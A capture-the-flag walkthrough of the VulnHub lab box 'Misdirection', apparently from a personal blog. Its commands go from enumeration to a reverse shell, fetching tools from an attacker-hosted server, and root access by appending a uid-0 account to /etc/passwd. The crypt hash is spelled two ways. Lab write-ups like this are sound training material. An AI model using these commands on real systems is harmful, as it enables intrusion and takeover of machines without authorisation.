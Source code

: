 ```yaml
---
layout: ctf
title: "Misdirection - VulnHub"
date: 2020-07-30
excerpt: "Walkthrough for Misdirection on Vulnhub"
tags: [Misdirection, VulnHub, privilege escalation, website enumeration]
comments: false
---
```

Misdirection is labelled as a medium difficulty OSCP style box from [VulnHub]( https://www.vulnhub.com). Below are the steps I took to root this box.

First, I ran **threader3000** to see what ports were open.

![Misdirection threader3000](/assets/img/Misdirection1.png)

Next, let's run **nmap -A p- 22,80,3306,8080 [machine ip]** to further enumerate these ports.

![Misdirection nmap](/assets/img/Misdirection2.png)

It appears that we have both Apache and a Python HTTP server running, along with MySQL and SSH. Let's visit both webpages over ports 80 and 8080 and see what's going on. Over port 80, we have the following:

![Misdirection port 80 website](/assets/img/Misdirection3.png)

Over port 8080, we have a default Apache page:

![Misdirection port 8080 website](/assets/img/Misdirection4.png)

Let's take a deeper look at the one on port 80. There is a **Sign Up** link under **Log In**. Let's create an account.

![Misdirection Sign Up](/assets/img/Misdirection5.png)

Unfortunately, we receive an error when attempting to register both with and without the **Is Manager** box checked.

![Misdirection email error](/assets/img/Misdirection6.png)

A cursory glance around the rest of the site results in not finding anything that stands out. Let's run **gobuster dir -u http://[machine ip]/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.php** to enumerate the website over port 80.

![Misdirection gobuster port 80](/assets/img/Misdirection7.png)

We are not able to login to the admin page as it will not load unless over https, and welcome/examples just look like they provide samples for web2py. Let's enumerate the port 8080 website next with **gobuster dir -u http://[machine ip]:8080/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x .txt,.php**.

![](/assets/img/Misdirection8.png)

After looking around, there are several subfolders available, but **/debug** provides you with web console access.

![Misdirection /debug](/assets/img/Misdirection9.png)

Running **whoami** states you are currently running as **www-data** and **sudo -l** states you can run bash as the user **brexit**

![Misdirection sudo -l](/assets/img/Misdirection10.png)

It also appears that netcat is installed. Let's open a shell on our attacker machine with **nc -nvlp 4444**

![Misdirection nc listener](/assets/img/Misdirection11.png)

Back on the p0wny@shell site, the netcat that is on the victim server does not allow for -e. Let's serve up an http server in another terminal window on our attacker machine with **python3 -m http.server**.

![Misdirection python3 http.server](/assets/img/Misdirection13.png)

On the victim machine, navigate to **cd /tmp** and run **wget http://[attacker ip]:8000/nc**. Once downloaded, run **chmod +x nc** to make this version of netcat executable. Now, run ./**nc [attacker ip] 4444 -e /bin/bash** to open a reverse shell on your attacker pc.

![Misdirection copy over nc and open reverse shell](/assets/img/Misdirection14.png)

Next, run **python -c 'import pty; pty.spawn("/bin/bash")'** to upgrade your shell.

![Misdirection upgrade shell](/assets/img/Misdirection15.png)

Now, let's run **sudo -u brexit /bin/bash**. You should now have a shell as the **brexit** user.

![Misdirection brexit user shell](/assets/img/Misdirection16.png)

Now, run **cd ~** and **ls**. The user flag is in this folder. Run **cat user.txt** to get the user flag.

![Misdirection user.txt](/assets/img/Misdirection17.png)

Now, let's copy over linpeas and pspy with **wget http://[attacker ip]:8000/linpeas.sh** and **wget http://[attacker ip]:8000/pspy64**. Next, run **chmod +x pspy64** and **chmod +x linpeas.sh**.

![Misdirection wget](/assets/img/Misdirection18.png)

Next, run **./linpeas.sh** to enumerate the server. It appears that the brexit user can write to the **/etc/passwd** file.

![Misdirection linpeas](/assets/img/Misdirection19.png)

Let's run **perl -le 'print crypt("test","aa")** to get the encrypted form of the password test we need. This should give you **aaqPiZY5xR5l.** Next, run **echo notroot:aaqPiZy5xR5l.:0:0:notroot:/root:/bin/bash >> /etc/passwd** This will add a root user named notroot with the password test. Next, run **su notroot** and enter test for the password when prompted to escalate to root.

![Misdirection root privesc](/assets/img/Misdirection20.png)

Now, just run **cd /root**, followed by **ls** and then finally **cat root.txt** to get the final flag.

![Misdirection root.txt](/assets/img/Misdirection21.png)